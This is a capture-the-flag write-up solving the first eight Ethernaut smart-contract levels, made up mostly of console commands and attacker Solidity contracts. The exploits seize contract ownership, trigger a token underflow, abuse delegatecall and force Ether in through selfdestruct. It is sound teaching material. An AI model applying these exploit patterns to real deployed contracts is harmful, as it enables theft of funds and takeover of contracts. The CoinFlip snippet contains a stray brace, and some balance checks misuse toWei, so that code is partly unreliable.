

# The Ethernaut CTF Challenge Solutions

_The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players._

Brief solutions to OpenZeppelin's Ethernaut CTF.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)  
[Level 3: Coin Flip](#CoinFlip)  
[Level 4: Telephone](#Telephone)  
[Level 5: Token](#Token)  
[Level 6: Delegation](#Delegation)  
[Level 7: Force](#Force)

<!---

**Pending**
[Level 8: Vault](#Vault)
[Level 9: King](#King)
[Level 10: Re-entrancy](#Reentrancy)
[Level 11: Elevator](#Elevator)
[Level 12: Privacy](#Privacy)
[Level 13: Gatekeeper One](#GatekeeperOne)
[Level 14: Gatekeeper Two](#GatekeeperTwo)
[Level 15: Naught Coin](#NaughtCoin)
[Level 16: Preservation](#Preservation)
[Level 17: Recovery](#Recovery)
[Level 18: Magic Number](#MagicNumber)
[Level 19: Alien Codex](#AlienCodex)
[Level 20: Denial](#Denial)
[Level 21: Shop](#Shop)
[Level 22: Dex](#Dex)
[Level 23: Dex Two](#DexTwo)
[Level 24: Puzzle Wallet](#PuzzleWallet)
[Level 25: Motorbike](#Motorbike)
[Level 26: Double Entry Point](#DoubleEntryPoint)
[Level 27: Good Samaritan](#GoodSamaritan)
-->

## Requirements

- [Metamask](https://metamask.io/)
- [Remix IDE](https://remix.ethereum.org)

## <a name='HelloEthernaut'></a> 0. Hello Ethernaut

> This level walks you through the very basics of how to play the game.

```solidity
// Call the functions in the order as suggested
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// Expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

// Query the ABI to locate the password() function
> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```

## <a name='Fallback'></a> 1. Fallback

> You will beat this level if:
>
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```solidity
// First, we contribute some ether:
await contract.contribute({ value: 5 })

// Then we send some ether to make us the owner
sendTransaction({ from: player, to: instance, value: 5 })

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()
```

## <a name='Fallout'></a> 2. Fallout

> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```solidity
// Call the function to claim ownership
contract.Fal1out()

// Verify we have claimed ownership
await contract.owner()
```

## <a name='CoinFlip'></a> 3. Coin Flip

> "Use your psychic abilities" to guess the correct outcome 10 times in a row.

In order to solve, we have a few objectives:

1. Set the contract instance as our target contract
2. Recreate the `flip()` function
3. Pass the `flip()` output into the target instance

Let's begin with recreating a portion of the `flip()` function. We will replicate useful variables of the original function.

```solidity
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

Now, let's setup the target contract. This supports our first objective.

```solidity
CoinFlip public targetContract;
```

Next, we will create the constructor to receive our target address (for the deployed instance). This completes our first objective.

```solidity
constructor(address _targetAddr) public {
  targetContract = CoinFlip(_targetAddr);
  }
```

Let's replicate the remaining essential aspects of the `flip()` function. This completes our second objective.

```solidity
  function flipSolve() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    }
    if (lastHash == blockValue) {
      revert();
      }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
```

Finally, we will pass the side value into the original contract, ensuring our guess is always correct. This completes our final objective.

```solidity
targetContract.flip(side);
```

We patiently call `flipSolve()` 10 times until we have guessed correctly 10 times and solve the level.

## <a name='Telephone'></a> 4. Telephone

> Claim ownership of the contract.

The contract allows for a straightforward exploit given the difference between `msg.sender` and `tx.origin`. By creating a contract that serves an as intermediary to call `changeOwner()`, we can claim ownership of the target contract.

```solidity
// Import the target contract
import './Telephone.sol';

//Create attacking contract
contract HotlineBling {

  // Setup target contract
  Telephone public EthernautHotline;

  constructor(address _targetCellPhone) public {

    // Setup deployed instance as the attack target
    EthernautHotline = Telephone(_targetCellPhone);
  }
    // Execute the attack
    function callTheVictim() public {
        EthernautHotline.changeOwner(msg.sender);
    }

}
```

## <a name='Token'></a> 5. Token

> The goal of this level is to hack the basic token contract and extract additional tokens -- preferably a very large amount of tokens.

The odometer hint reminds us of the possibility for [underflow and overflow](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#two-s-complement-underflows-overflows).
We will trigger an underflow by transferring more tokens than available. Since we are using `uint`, instead of creating a negative balance, the result will be a large positive integer.

We will use the `transfer()` function for this exploit, which requires two inputs: destination address and value to send. We'll use an arbitrary address (the ethernaut address) and we'll send 1 token more than we were provided (20+1).

```solidity
// Retrieve the ethernaut address
> await ethernaut.address
< 0xD991431D8b033ddCb84dAD257f4821E9d5b38C33

// Verify the balance address
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33") // expanding reveals the balance is 0

//Verify our own address balance
> await contract.balanceOf(player) // expanding reveals the balance is 20, as expected

// Execute the exploit, transferring 21 tokens (triggering the overlow) to the ethernaut address
// (we could also transfer to any valid address)
> contract.transfer("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33", 21)

// After the transaction is confirmed, check the ethernaut balance
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33")  // the balance is 21, as expected

// Verify our updated address balance
> await contract.balanceOf(player) // revealing Array(11) -- a balance that is "a very large amount of tokens"
```

Fortunately, the Solidity compiler now rejects code resulting in an underflow or overflow, as of v0.8.0. For contracts with previous compiler versions -- like this one -- [OpenZeppelin's SafeMath library](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) is suggested.

## <a name='Delegation'></a> 6. Delegation

> The goal of this level is to claim ownership of the instance you are given.

Essentially, `delegatecall` allows a calling contract to use the functions of another contract while preserving its context (i.e., `address(this)`, `msg.sender`, `msg.value`). Additionally, the calling contract will execute on its own storage and state variables.

Our goal -- claiming ownership -- can be achieved by executing the `pwn()` function of the `Delegate` contract, which will sets `owner` equal to `msg.sender`. If we execute `pwn()` as a `delegatecall` from the `Delegation` instance, we can claim ownership (due to `msg.sender` being preserved from the calling `Delegation` contract).

Fortunately, both the `Delegation` and `Delegate` contracts designate slot 0 for `owner`, which will ensure we can easily update ownership. To pull off the change of ownership, we'll call the `fallback()` function and specify `msg.data` as the `pwn()` function.

Before we specify `msg.data`, the level hints reminds us about method ID. We recall that we can create Method IDs to call a function, as noted [here](https://ethereum.stackexchange.com/questions/78179/how-to-create-function-selector-method-ids). So, to specify `msg.data` as the `pwn()` function, we will pass the first four bytes of the Keccak-256 hash (according to the [ABI specs](http://solidity.readthedocs.io/en/latest/abi-spec.html#function-selector)).

Let’s create a variable to hold the `msg.data` information. The `web3.eth.abi` functions allow us to encode and decode parameters to ABI for function calls to the EVM -- as stated in the [Web3.js documentation](https://web3js.readthedocs.io/en/v1.2.11/web3.html). The `encodeFunctionSignature` function encodes the function name to its ABI signature, which are the first 4 bytes of the hash of the function name.

`let msgdata = web3.eth.abi.encodeFunctionSignature("pwn()”)`.

To trigger the `fallback()` function, we’ll use `sendTransaction()` and specify the `from`, `to`, and `data` parameters.

`contract.sendTransaction({from: player, to:instance, data: msgdata})`

Let’s put this together and execute the transfer of ownership.

```solidity
// Check who is the initial owner of the `Delegation` contract
> await contract.owner()
< '0x716747Fbc1FcE4c36F2B369F87aDB5D4580e807f'

// Create and set our variable for `msg.data`
> let msgdata = web3.eth.abi.encodeFunctionSignature("pwn()")

// Trigger the fallback function, with our specified `msg.data` to call the `pwn()` function
contract.sendTransaction({from:player, to:instance, data:msgdata})

// Verify we have claimed ownership of the contract instance
> await contract.owner()
< 0x... // reflects the player address
```

## <a name='Force'></a> 7. Force

> The goal of this level is to make the balance of the contract greater than zero.

The level gives us a simple contract, without any functions. However, we do get an adorable kitten.

```solidity
/*
                MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)
*/
```

Typically, we would rely on a provided function to transfer value to the contract. Else, we would default to `fallback` or `receive` functions. Unfortunately, we have no functions -- no functions at all. Let’s determine a workaround.

Within the [Security Considerations](https://docs.soliditylang.org/en/develop/security-considerations.html#sending-and-receiving-ether) section of the Solidity documentation, we learn that we can actually move Ether without message calls! We can designate a target address as the recipient for either (a) mining block rewards or (b) remaining value of a self-destructed contract. The latter seems more feasible.

Let’s force Ether into our instance by (1) creating a contract, (2) providing the contract with a balance, and (3) have it `selfdestruct`, with the recipient as our instance.

(1) First, we'll create, compile, and deploy the following contract in Remix.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// create new contract
contract ForceFeedEther {
    // allow receipt of ether

    receive() external payable {}

    // force ether into target contract
    function boomBoomPow(address payable _targetAddr) public {
        selfdestruct(_targetAddr);
    }
}
```

(2) Now, we'll provide the contract with a balance. We've included a `receive` function in our contract to assist with this.

```js
// Let's check that our contract value is currently 0 from the console
> toWei(await getBalance('0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55'))
< '0'

// Send 10 Ether to contract
> await web3.eth.sendTransaction({to:'0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55', from:player, value:10})

// Check updated contract value
> toWei(await getBalance('0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55'))
< '10'
```

(3) Finally, we'll have the contract `selfdestruct`, with the recipient as our instance.

```js
// Confirm the instance value is 0 from the console
> toWei(await getBalance(instance))
< '0'

// Execute selfdestruct from Remix, specifying the instance address as the target address

// Check the updated instance value
> toWei(await getBalance(instance))
< '10'
```



Submit instance for completion.
